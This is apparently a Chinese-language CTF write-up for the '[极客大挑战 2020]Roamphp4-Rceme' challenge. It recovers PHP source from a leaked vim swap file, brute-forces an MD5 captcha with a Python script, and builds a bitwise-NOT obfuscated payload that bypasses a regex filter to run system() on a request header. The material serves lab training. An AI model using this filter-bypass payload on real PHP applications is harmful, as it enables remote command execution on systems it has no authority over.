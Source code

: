 ```yaml
---
title: '[极客大挑战 2020]Roamphp4-Rceme'
date: 2024-11-19 20:05:58
tags: rce
categories: 刷题笔记
---
```


### [极客大挑战 2020]Roamphp4-Rceme

打开源码，可以发现提示

![image-20241119211046846](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411192110982.png)

有个swp文件，我们访问/.index.php.swp

我们把它下载下来就得到了一个swp文件

然后去Linux的vim -r进行源码读取

<!--more-->

```php
<?php
error_reporting(0);
session_start();
if(!isset($_SESSION['code'])){
        $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
        //获得验证数字
}
 
if(isset($_POST['cmd']) and isset($_POST['code'])){
 
        if(substr(md5($_POST['code']),0,5) !== $_SESSION['code']){
                //post传的code经过md5加密前五个字符，要等于session的code
                die('<script>alert(\'Captcha error~\');history.back()</script>');
        }
        $_SESSION['code'] = substr(md5(mt_rand().sha1(mt_rand)),0,5);
        $code = $_POST['cmd'];
        if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
                //修正符:x 将模式中的空白忽略; 
                die('<script>alert(\'Longlone not like you~\');history.back()</script>');
        }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
                @eval($code);
                die();
        }
 
```

在rce前，他有个认证。md5的前五位数要等于给定的值，我们写个python脚本

```python
import hashlib
for i in range(1,10000000000000):
    m=hashlib.md5(str(i).encode()).hexdigest()
    if m[0:5]=='5dc64':
        print(i)
        break
```

我们重点看正则

```
if(strlen($code) > 70 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code))
```

这个要求无参数rce

```
if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code))
```

这个要求形式为

![img](http://47.96.173.116/wp-content/uploads/2021/10/MOGTTH8GBNYPT0CQ1.png)

然后末尾还要加个;，才能保证最后只剩下；

我们了解一些前置知识

> ('phpinfo')()
> 		'phpinfo'()
> 		['phpinfo']{0}()
> 	效果作用是一样的。
>
> phpinfo(): `[~%8F%97%8F%96%91%99%90][~%CF]();`
> 加这个`[~%FF]`只是因为php7的解析方式，当然换成其他的也可以例如[~%EF] [~%CF]

我们使用

```
system(end(getallheader())); //getallheaders()简单讲可以获取数包据头
```

我们反编译一下就得到了

```
[~%8C%86%8C%8B%9A%92][~%CF]([~%9A%91%9B][~%CF]([~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C][~%CF]()));
```

![image-20241119213400736](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411192134848.png)
